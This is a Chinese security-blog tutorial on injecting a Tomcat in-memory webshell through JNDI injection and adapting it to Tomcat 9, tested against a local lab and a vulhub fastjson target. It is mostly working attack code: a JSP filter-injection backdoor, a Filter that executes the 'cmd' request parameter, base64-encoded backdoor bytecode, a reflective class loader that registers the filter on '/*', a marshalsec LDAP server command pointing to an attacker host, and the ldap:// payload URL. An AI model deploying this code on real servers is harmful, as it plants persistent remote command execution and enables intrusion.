# JNDI注入内存马并绕过Tomcat高版本-先知社区

> **来源**: https://xz.aliyun.com/news/18250  
> **文章ID**: 18250

---

先来说说内存马，基本上常见的注入类型有四种，

* 基于ServletAPI的，具体来说就是动态注册Servlet、Filter或Listener
* 基于SpringMVC的，具体来说是动态注册Controller或Interceptor
* 通过注册Tomcat的Pipeline和Valve机制注册的
* 还有一种是Agent内存马，agentmain类型的agent可以attach到一个正在运行的Java进程上，并且可以根据需要修改或重新转换已被加载或需要被加载的类，鉴于此，我们可以修改某个类的字节码。比如修改ApplicationFilterChain中的doFilter方法，在方法前面加入我们的恶意后门。当然理论上来说，改Controller或者Interceptor都行的。使用时根据需要自行修改类即可。

一般来说我更喜欢基于ServletAPI的动态注册Filter方式注入内存马，理由是通用型更强，目标系统无需依赖SpringMVC也能用。还有一个是根据请求的调用过程，如果存在鉴权的情况，请求不一定能走到Servlet，相比你们一定见过访问网页跳转/login登录页的情况，那这种情况即使注册为Servlet访问不到也没用，但是Filter比Servlet有更高的优先级。鉴于此，本文下文均使用动态注册Filter类型内存马的方式。

前提是需要一个ServletRequest对象，因为我们需要动态注册用到的属性或者方法在StandardContext的实例对象中，而这个实例对象恰好可以通过Request对象通过一系列反射调用得到。这个好说，在jsp、Servlet#doGet/doPost、Filter#doFilter、Controller...等地方中均可轻松获取到当前请求的Request对象。下面就是动态注册一个Filter的典型过程。

```
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%--声明一个恶意Filter--%>
<%!
public class ShellFilter extends HttpFilter{
  @Override
  protected void doFilter(HttpServletRequest req, HttpServletResponse resp, FilterChain chain) throws IOException, ServletException {
    String cmd = req.getParameter("cmd");
    if (cmd != null) {
      Process proc = Runtime.getRuntime().exec(cmd);
      BufferedReader br = new BufferedReader(
          new InputStreamReader(proc.getInputStream()));
      String line;
      while ((line = br.readLine()) != null) {
        resp.getWriter().println(line);
      }
      br.close();
    }
  }
}
%>
<%--从ServletContext中获取StandardContext--%>
<%
  // 从request中获取servletContext
  ServletContext servletContext = request.getServletContext();
  // 从servletContext中获取applicationContext
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
  // 从applicationContext中获取standardContext
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Filter--%>
<%
  // 创建恶意Filter
  ShellFilter filter = new ShellFilter();
  FilterDef def = new FilterDef();
  def.setFilter(filter);
  def.setFilterName("shellFilter");
  def.setFilterClass(filter.getClass().getName());
  FilterMap map = new FilterMap();
  map.addURLPattern("/*");
  map.setFilterName("shellFilter");

  standardContext.addFilterDef(def);
  standardContext.addFilterMapBefore(map);
  standardContext.filterStart();
%>
```

只要访问一次这个jsp文件，一个Filter内存马就会被动态注册到JavaWeb应用中。

不过这还是要事先上传一个jsp文件到服务器上的，与无文件落地的理念相悖，不够优雅。且并非所有情况下均能访问或解析jsp文件。那么有没有一种方式不用上传文件也能注入内存马呢？有的，JNDI就可以让Java去下载一个远程的class文件并执行。经典的漏洞有fastjson1.2.24（JdbcRowSetImpl利用链）和log4j2。

# JNDI

JNDI允许通过命名服务动态加载远程对象，当lookup()方法的URL参数可控时，攻击者可构造恶意JNDI服务地址（RMI/LDAP），诱导客户端访问攻击者控制的目录服务。

再回顾一下JNDI的注入流程：

## 攻击端（Ldap为例）

1. 编写恶意类
2. 编译恶意类并托管在HTTP服务器
3. 启动LDAP服务并将引用指向上一步Http服务器中的恶意类：

## 受害者端触发

1. 客户端执行可控代码：context.lookup("ldap://attacker-ip:1389/Exploit")
2. JNDI客户端请求LDAP服务
3. LDAP返回恶意Reference对象
4. 客户端解析Reference时：

1. 从codebase指定URL动态加载
2. 实例化恶意类触发构造函数/static代码块

## 结合内存马使用

不过这里下载的类中会被自动执行的地方只有三个代码块，分别是static{}，{}和无参构造方法。所以上面的注入代码就需要改造一下了。问题就来了，这三个地方可没有Request对象传入，我们要怎么拿到StandardContext呢？参考这篇文章：<https://xz.aliyun.com/news/9369>

如果是Tomcat可以通过这段代码拿到（重点要说明一下，最后版本不兼容的坑也就出现在这里）

```
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardRoot standardroot = (StandardRoot) webappClassLoaderBase.getResources();
            StandardContext standardContext = (StandardContext) standardroot.getContext();
```

如果依赖了Spring框架可以先用下面的方法取得Request

```
(ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()
```

# 注入内存马

准备了一个受害者环境，环境是Tomcat8（非Tomcat8.5及以上版本）和Java8u62（在 JDK 8u191 com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被调整为false，这会导致无法下载远程类到本地，也就是无法利用。但是还是会有绕过方式。本文不做赘述。）。可以从<https://archive.apache.org/dist/tomcat/tomcat-8/> 中下载。新建项目





代码很简单，就是在一个Servlet的doGet中调用lookup()请求传来的数据源，写好代码并启动Tomcat服务器

```
package zero.overflow.jndidemo;

import javax.naming.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

@WebServlet(name = "helloServlet", value = "/hello")
public class HelloServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) {
        String name = request.getParameter("name");
        try {
            InitialContext context = new InitialContext();
            context.lookup(name);
        } catch (NamingException e) {
            throw new RuntimeException(e);
        }
    }
}
```



然后准备恶意代码。再新开一个项目，同样基于Java8。



在pom.xml中添加tomcat-catalina@8.0.53、javax.servlet-api及javassist依赖



写一个后门Servlet，执行cmd参数中的命令并返回执行结果

```
import javax.servlet.*;
import java.io.*;
public class ShellFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) {}
    @Override
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain filterChain) throws IOException {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            BufferedReader bufferedReader = new BufferedReader(
                    new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                response.getWriter().println(line);
            }
        }
    }
}
```



使用javassist库将刚刚写的后面shell转为base64

代码如下

```
import javassist.*;
import java.util.Base64;

public class DumpBase64 {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        // 从类路径获取CtClass对象
        CtClass ctClass = pool.get("ShellFilter");

        // 转换为字节数组
        byte[] classBytes = ctClass.toBytecode();

        // 使用BASE64Encoder进行Base64编码
        String code = Base64.getEncoder().encodeToString(classBytes);
        System.out.println(code);
    }
}
```



将base64文本复制到我们写的动态注册Filter的Inject类的code变量中（检查末尾不能带n换行）



Inject类的内容如下：

```
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.catalina.webresources.StandardRoot;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import javax.servlet.Filter;
import java.lang.reflect.Method;
import java.util.Base64;

public class Inject {
    public StandardContext getContext() {
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardRoot standardroot = (StandardRoot) webappClassLoaderBase.getResources();
        StandardContext context = (StandardContext) standardroot.getContext();
        return context;
    }
    public Filter getFilter() throws Exception {
        String code = "yv66vgAAADQAXwoADwA0CAArCwA1ADYKADcAOAoANwA5BwA6BwA7CgA8AD0KAAcAPgoABgA/CgAGAEALAEEAQgoAQwBEBwBFBwBGBwBHAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MU2hlbGxGaWx0ZXI7AQAEaW5pdAEAHyhMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7KVYBAAxmaWx0ZXJDb25maWcBABxMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7AQAHZGVzdHJveQEACGRvRmlsdGVyAQBbKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjspVgEAB3Byb2Nlc3MBABNMamF2YS9sYW5nL1Byb2Nlc3M7AQAOYnVmZmVyZWRSZWFkZXIBABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAARsaW5lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAHcmVxdWVzdAEAHkxqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAfTGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOwEAC2ZpbHRlckNoYWluAQAbTGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47AQADY21kAQANU3RhY2tNYXBUYWJsZQcASAcASQcAOgEACkV4Y2VwdGlvbnMHAEoBAApTb3VyY2VGaWxlAQAQU2hlbGxGaWx0ZXIuamF2YQwAEQASBwBLDABMAE0HAE4MAE8AUAwAUQBSAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgEAGWphdmEvaW8vSW5wdXRTdHJlYW1SZWFkZXIHAEkMAFMAVAwAEQBVDAARAFYMAFcAWAcAWQwAWgBbBwBcDABdAF4BAAtTaGVsbEZpbHRlcgEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZheC9zZXJ2bGV0L0ZpbHRlcgEAEGphdmEvbGFuZy9TdHJpbmcBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSU9FeGNlcHRpb24BABxqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0AQAMZ2V0UGFyYW1ldGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEAEyhMamF2YS9pby9SZWFkZXI7KVYBAAhyZWFkTGluZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAdamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAE2phdmEvaW8vUHJpbnRXcml0ZXIBAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEADgAPAAEAEAAAAAQAAQARABIAAQATAAAALwABAAEAAAAFKrcAAbEAAAACABQAAAAGAAEAAAAEABUAAAAMAAEAAAAFABYAFwAAAAEAGAAZAAEAEwAAADUAAAACAAAAAbEAAAACABQAAAAGAAEAAAAGABUAAAAWAAIAAAABABYAFwAAAAAAAQAaABsAAQABABwAEgABABMAAAArAAAAAQAAAAGxAAAAAgAUAAAABgABAAAACAAVAAAADAABAAAAAQAWABcAAAABAB0AHgACABMAAADrAAUACAAAAEgrEgK5AAMCADoEGQTGADu4AAQZBLYABToFuwAGWbsAB1kZBbYACLcACbcACjoGGQa2AAtZOgfGABEsuQAMAQAZB7YADaf/6rEAAAADABQAAAAiAAgAAAALAAoADAAPAA0AGQAOACMADwAuABEAOQASAEcAFQAVAAAAUgAIABkALgAfACAABQAuABkAIQAiAAYANgARACMAJAAHAAAASAAWABcAAAAAAEgAJQAmAAEAAABIACcAKAACAAAASAApACoAAwAKAD4AKwAkAAQALAAAABEAAv4ALgcALQcALgcAL/kAGAAwAAAABAABADEAAQAyAAAAAgAz";
        byte[] bytes = Base64.getDecoder().decode(code);

        ClassLoader cl = Thread.currentThread().getContextClassLoader();
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        method.setAccessible(true);
        Class clazz = (Class) method.invoke(cl, bytes, 0, bytes.length);
        Filter filter = (Filter) clazz.newInstance();
        return filter;
    }
    public Inject() throws Exception {
        StandardContext context = getContext();
        Filter filter = getFilter();

        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName("shell");
        filterDef.setFilter(filter);
        filterDef.setFilterClass(filter.getClass().getName());

        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName("shell");
        filterMap.addURLPattern("/*");

        context.addFilterDef(filterDef);
        context.addFilterMapBefore(filterMap);
        context.filterStart();
        System.out.println("注入成功");
    }
}
```

你可能会疑惑，为什么要通过ClassLoader来创建这个类，而不是直接New出这个类来呢？因为在利用环境中，这个Inject类是通过jndi服务让受害者下载到本地的，受害者环境中并没有ShellFilter这个Filter呐，而jndi一次只能指向到一个class上。

你可能又想问为什么不写成内部类呢？因为就算是内部类，在编译后依然会生成两个独立的class文件。所以条件所限，只能写成动态生成类的方式。

接下来使用mvn compile编译刚刚写好的Inject类，并原地起一个http服务器。



接着再启动一个ldap或者rmi服务，我这里用marshalsec这个包。攻击方在局域网中的ip是192.168.100.1

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.100.1/#Inject" 1389
```

顺带一提说，也是用Java8启动的。



攻击方这个环境都准备好了，接下来去触发一下受害者就行。访问此url触发：

```
ldap://192.168.100.1:1389/Inject
```



报错了，但是不要慌，区区没有实现getObjectInstance方法罢了，但肯定构造方法中的注入逻辑肯定是触发了的。执行个命令看一下：



你可能要问，为什么不用vulhub的fastjson1.2.24rce靶场做复现，而是要自己写一个呢？问题就出现在这里，笔者无论是用Github的JNDIExploit项目，还是手写代码，均无法注入成功。这是为什么呢？

这个问题困扰笔者许久，在多次尝试未果的情况下，笔者进入fastjson1.2.24靶机容器内部，dump出源码查看靶机所使用的tomcat版本

```
docker-compose cp web:/usr/src/fastjsondemo.jar fastjsondemo.jar
```



解压查看，发现靶机用的版本是Tomcat9



于是再新建一个基于tomcat9的项目





编辑pom.xml，添加依赖，使用tomcat9

```
<dependencies>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>9.0.97</version>
        </dependency>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.30.2-GA</version>
        </dependency>
    </dependencies>
```

放入Inject，并手动在HelloServlet.java调用无参构造方法同时打上断点，运行项目，并访问/hello入口，触发恶意代码。





发现在Inject.java的getContext()方法处爆出了空指针异常，重新以调试模式运行，让程序停在断点处。



跟进到Inject.java的getContext()方法内


程序获取standardroot变量失败，跟进WebappClassLoaderBase.getResources()方法查看为什么获取到的变量是null



发现方法已弃用，但全局存在访问级别为受保护的resources属性。于是改造Inject.getContext()为通过反射获取StandardContext。改造后的代码如下：

```
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.catalina.webresources.StandardRoot;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import sun.misc.BASE64Decoder;

import javax.servlet.http.HttpFilter;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class Inject {

    public Inject(){
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        try {
            Field field = WebappClassLoaderBase.class.getDeclaredField("resources");
            field.setAccessible(true);
            StandardRoot standardRoot = (StandardRoot) field.get(webappClassLoaderBase);
            StandardContext context = (StandardContext) standardRoot.getContext();


            BASE64Decoder base64Decoder = new BASE64Decoder();
            String shellCode = "yv66vgAAADQAWQoADwAvCAAlCwAwADEKADIAMwoAMgA0BwA1BwA2CgA3ADgKAAcAOQoABgA6CgAGADsLADwAPQoAPgA/BwBABwBBAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MU2hlbGxGaWx0ZXI7AQAIZG9GaWx0ZXIBAG0oTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlO0xqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluOylWAQAHcHJvY2VzcwEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAA5idWZmZXJlZFJlYWRlcgEAGExqYXZhL2lvL0J1ZmZlcmVkUmVhZGVyOwEABGxpbmUBABJMamF2YS9sYW5nL1N0cmluZzsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQAFY2hhaW4BABtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjsBAANjbWQBAA1TdGFja01hcFRhYmxlBwBCBwBDBwA1AQAKRXhjZXB0aW9ucwcARAEAB2Rlc3Ryb3kBAApTb3VyY2VGaWxlAQAQU2hlbGxGaWx0ZXIuamF2YQwAEAARBwBFDABGAEcHAEgMAEkASgwASwBMAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgEAGWphdmEvaW8vSW5wdXRTdHJlYW1SZWFkZXIHAEMMAE0ATgwAEABPDAAQAFAMAFEAUgcAUwwAVABVBwBWDABXAFgBAAtTaGVsbEZpbHRlcgEAHWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwRmlsdGVyAQAQamF2YS9sYW5nL1N0cmluZwEAEWphdmEvbGFuZy9Qcm9jZXNzAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQATKExqYXZhL2lvL1JlYWRlcjspVgEACHJlYWRMaW5lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQATamF2YS9pby9QcmludFdyaXRlcgEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYAIQAOAA8AAAAAAAMAAQAQABEAAQASAAAALwABAAEAAAAFKrcAAbEAAAACABMAAAAGAAEAAAAJABQAAAAMAAEAAAAFABUAFgAAAAQAFwAYAAIAEgAAAOsABQAIAAAASCsSArkAAwIAOgQZBMYAO7gABBkEtgAFOgW7AAZZuwAHWRkFtgAItwAJtwAKOgYZBrYAC1k6B8YAESy5AAwBABkHtgANp//qsQAAAAMAEwAAACIACAAAAAwACgANAA8ADgAZAA8AIwAQAC4AEgA5ABMARwAWABQAAABSAAgAGQAuABkAGgAFAC4AGQAbABwABgA2ABEAHQAeAAcAAABIABUAFgAAAAAASAAfACAAAQAAAEgAIQAiAAIAAABIACMAJAADAAoAPgAlAB4ABAAmAAAAEQAC/gAuBwAnBwAoBwAp+QAYACoAAAAEAAEAKwABACwAEQABABIAAAArAAAAAQAAAAGxAAAAAgATAAAABgABAAAAGgAUAAAADAABAAAAAQAVABYAAAABAC0AAAACAC4=";
            byte[] bytes = base64Decoder.decodeBuffer(shellCode);

            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            Class clazz = (Class) method.invoke(cl, bytes, 0, bytes.length);

            HttpFilter filter = (HttpFilter) clazz.newInstance();

            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName("shell");
            filterDef.setFilter(filter);
            filterDef.setFilterClass(filter.getClass().getName());

            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("shell");
            filterMap.addURLPattern("/*");

            context.addFilterDef(filterDef);
            context.addFilterMapBefore(filterMap);
            context.filterStart();
            System.out.println("注入成功");
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        } catch (InvocationTargetException e) {
            throw new RuntimeException(e);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }
}
```

那么，实战试试吧

1.编译注入类Inject，并托管在Http服务器上，我这里选择起一个python服务



2.配置RMI服务引用指向Inject



3.启动vulhub的fastjson靶机



4.访问并打出payload



5.任意位置加上参数?cmd=ls测试效果


